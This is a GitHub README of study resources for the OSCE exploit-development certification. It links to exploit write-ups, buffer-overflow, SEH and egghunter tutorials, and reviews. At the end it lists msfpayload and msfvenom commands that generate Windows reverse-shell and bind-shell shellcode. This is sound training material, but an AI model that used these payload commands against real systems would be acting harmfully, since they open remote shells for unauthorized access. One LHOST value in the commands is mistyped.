 <p align="center">
  <img width="300" height="300" src="https://github.com/bigb0sss/OSCE/blob/master/osce.png">
</p>

## Exploit Writeups
* Backdooring PE - [Weaponizing Your Favorite PE](https://medium.com/@bigb0ss/expdev-weaponizing-your-favorite-pe-portable-executable-exploit-c268c0c076c7)
* Winamp 5.12 - [Winamp 5.12 Exploitation using Egghunter](https://medium.com/@bigb0ss/expdev-winamp-5-12-exploitation-using-egghunter-6efb2c8a863b)
* HP NNM 7.5 - [HP OpenView NNM 7.5 Exploitation](https://medium.com/@bigb0ss/expdev-hp-openview-nnm-7-5-exploitation-seh-egghunter-b25ea5fab43f)

### Exploit Exercise ([Protostar](http://exploit-exercises.lains.space/protostar/))
|Module |Link   |Note  |
| :---  | :---  | :---
|Stack0 |[Stack BOF Intro](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack0-214e8cbccb04)   | |
|Stack1 |[Stack BOF Basic1](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack1-2f28302559fc)  | |
|Stack2 |[Stack BOF Basic2](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack2-d6cb2e467853)  | |
|Stack3 |[Stack BOF Basic3](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack3-7db54291f867)  | |
|Stack4 |[Stack BOF Basic4](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack-4-bde92b7b6b38) | |
|Stack5 |[Stack BOF Shellcode](https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-5-c8d085c914e6) | |
|Stack6 |[Stack BOF ret2libc](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6)  | ROP is no need for OSCE |
|Stack7 |[Stack BOF ret2.text](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack-7-fea3ac85ffe7) | ROP is no need for OSCE. But learn POP; POP; RET concept with this |

## Links
* Study Plan - https://www.abatchy.com/2017/03/osce-study-plan
* Prep Guide - https://tulpa-security.com/2017/07/18/288/
* Mona.py - https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/

## Reviews
* Techryptic - [Great Tips](https://techryptic.github.io/2018/12/28/Study-Guide-&-Tips-Offensive-Security-Certified-Expert-(OSCE)-Cracking-The-Perimeter-(CTP)/)
* Jack Halon - https://jhalon.github.io/OSCE-Review/

## Github
* Examples - https://github.com/dhn/OSCE
* OSCE_Bible - https://github.com/mohitkhemchandani/OSCE_BIBLE
* FullShade - https://github.com/FULLSHADE/OSCE (*POCs)
* h0mbre - https://github.com/h0mbre/CTP-OSCE (*Good helpers)
* ihack4falafel - https://github.com/ihack4falafel/OSCE

## Resources
* Corelan - https://www.corelan.be/index.php/articles/
  * [Exploit Writing Part 1 - Stack-based Overflow](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)
  * [Exploit Writing Part 2 - Buffer Overflow](https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/)
  
* FuzzSecurity - http://fuzzysecurity.com/tutorials.html

* SecuritySift - http://www.securitysift.com/
  * [Windows Exploit Development Part 1 - Basics](http://www.securitysift.com/windows-exploit-development-part-1-basics/)
  * [Windows Exploit Development Part 2 - Stack-based Overflow](http://www.securitysift.com/windows-exploit-development-part-2-intro-stack-overflow/)
  * [Windows Exploit Development Part 3 - Offsets](http://www.securitysift.com/windows-exploit-development-part-3-changing-offsets-and-rebased-modules/)
  * [Windows Exploit Development Part 4 - Locating Shellcode JMP](http://www.securitysift.com/windows-exploit-development-part-4-locating-shellcode-jumps/)

* Fuzzing
  * https://resources.infosecinstitute.com/intro-to-fuzzing/
  * https://resources.infosecinstitute.com/fuzzer-automation-with-spike/

* Structured Exception Handler (SEH)
  * [Exploit Writing Part 3-1 - SEH](https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/)
  * [Exploit Writing Part 3-2 - SEH](https://www.corelan.be/index.php/2009/07/28/seh-based-exploit-writing-tutorial-continued-just-another-example-part-3b/)
  * [Windows Exploit Development Part 6 - SEH](http://www.securitysift.com/windows-exploit-development-part-6-seh-exploits/)

* Egghunter
  * http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf
  * [Exploit Writing Part 8 - Egghunting](https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/)
  * [Windows Exploit Development Part 5 - Egghunting](http://www.securitysift.com/windows-exploit-development-part-5-locating-shellcode-egghunting/)

* ASLR
  * [Exploit Writing Part 6 - ASLR](https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/)

* Shellcoding
  * [Exploit Wrting Part 9 - Shellcoding](https://www.corelan.be/index.php/2010/02/25/exploit-writing-tutorial-part-9-introduction-to-win32-shellcoding/)
  * https://www.fuzzysecurity.com/tutorials/expDev/6.html
  * http://sh3llc0d3r.com/windows-reverse-shell-shellcode-i/
  * http://www.vividmachines.com/shellcode/shellcode.html#ws

* Web Application
  * XSS - https://excess-xss.com/
  * XSS - https://www.veracode.com/security/xss


## Reverse Shell
### Windows XP/Vista Ultimate
```bash
/pentest/exploits/framework/msfpayload windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 C
```
### Later Windows
```bash
/pentest/exploits/framework/msfpayload windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 C 

msfvenom -p windows/shell_reverse_tcp LHOST=1192.168.x.x LPORT=443 -a x86 --platform=win -e x86/alpha_mixed -f raw
```

## Bind Shell
### Windows XP/Vista Ultimate
```bash
msfpayload windows/shell_bind_tcp R > bind
msfencode -e x86/alpha_mixed -i bind -t perl
```
### Later Windows
```bash
msfvenom -p windows/shell_bind_tcp -a x86 --platform=win -e x86/alpha_mixed -f perl
```


